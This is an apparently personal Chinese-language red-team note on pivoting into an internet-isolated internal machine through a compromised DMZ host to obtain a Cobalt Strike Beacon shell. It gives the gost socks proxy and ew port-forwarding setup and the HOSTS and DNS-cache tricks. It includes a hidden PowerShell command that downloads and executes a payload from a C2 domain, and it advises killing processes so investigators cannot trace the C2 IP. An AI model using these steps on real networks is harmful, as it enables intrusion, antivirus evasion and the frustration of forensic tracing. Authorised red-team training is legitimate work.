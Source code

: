 【场景】

内网机器A，已控机器DMZ。机器A不出网，但是通DMZ。目标是上线机器A，获取Beacon Shell。


![title](https://leanote.com/api/file/getImage?fileId=5ee32865ab64416aa70016a0)



【步骤】

- 1、 创建 CS 的 listener，只有 proxy 跟普通 listener 不一样。Proxy 填写 `socks://DMZ:1080`。
- 2、DMZ 上开启 socks4a 代理：`gost -L socks4a://:1080` 
> 在这里使用项目：https://docs.ginuerzh.xyz/gost/socks/
>Q：Beacon 是否支持 socks5？
>Todo1：其他项目 [Stowaway](https://www.chainnews.com/articles/645298684184.htm)
Todo2：最近推上有个大佬将一个go的隧道工具用C#重新封装，可以完美实现execute-assembly，<u>不落地</u>实现各种正反向socks5代理，http代理，端口转发等等。但是这个项目我还没找到。
- 3、DMZ 上：ew 监听80，转发到 CS teamserver 监听器上线端口。
- 4、因为我这里使用的是域名上线。首先目标机绑定域名到 DMZ（为了可以执行 stager 的 payload）。
>注：因为本文中已经介绍过：使用 stager 这种分阶段的 playload 的话，实际效果虽然已经在监听器中设置了 proxy，但其实第一次上线不会使用设置的 proxy 代理。所以要<u>手动地</u>把域名第一次指向 DMZ 机器，然后配合 ew 端口转发到 C2（当然第二次就会指向真实IP了）。这里的具体操作的话，因为 DNS 解析是走 UDP，socks4a 支持 TCP，所以域名解析只能在目标机器本地解析，而目标机器没网，所以要改 HOSTS 文件，使得第一次把上线域名指向 DMZ。而配合 ew 端口转发，是为了 stager payload 可用。但是这时候会解析不生效，因为有 DNS 缓存。所以效果会造成上线的 Beacon shell 除了心跳之外没回显。所以解决办法就是通过 `ipconfig /flushdns` 命令清理 DNS 缓存或者是退掉这个上线的 Beacon，spawn 一个新的 Beacon 出来，这样造成 DNS 缓存更新。然后此时就可以把 ew 关掉了，因为现在的流量就是：`目标内网机器` → `DMZ socks4a 代理` → `teamserver 服务器`。

- 5、目标机执行 powershell 上线命令（在当前环境选择了 powershell+合法证书的绕 AV 上线方式）：

```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('https://C2域名:80/a'))"
```
- 6、别忘记在 DMZ 机器上 kill 掉 ew，因为 socks 已经部署好，以后走 socks，再无需这个端口转发了。避免因为此进程被溯源 C2 真实 IP。

![title](https://leanote.com/api/file/getImage?fileId=5ee36f0aab64416aa7001960)


-------------------------

# 参考文档：

1. [metasploit payload运行原理浅析(sockedi调用约定是什么)](https://www.cnblogs.com/Akkuman/p/12859091.html)，博客园，Akkuman，2020年5月9日
2. [CobaltStrike4.0用户手册_中文翻译](https://blog.ateam.qianxin.com/CobaltStrike4.0%E7%94%A8%E6%88%B7%E6%89%8B%E5%86%8C_%E4%B8%AD%E6%96%87%E7%BF%BB%E8%AF%91.pdf)，QAX-A TEAM
3. [cobalt strike 快速上手[一]](https://klionsec.github.io/2017/09/23/cobalt-strike/#menu)，Klion 的博客，Klion，2017年9月23日



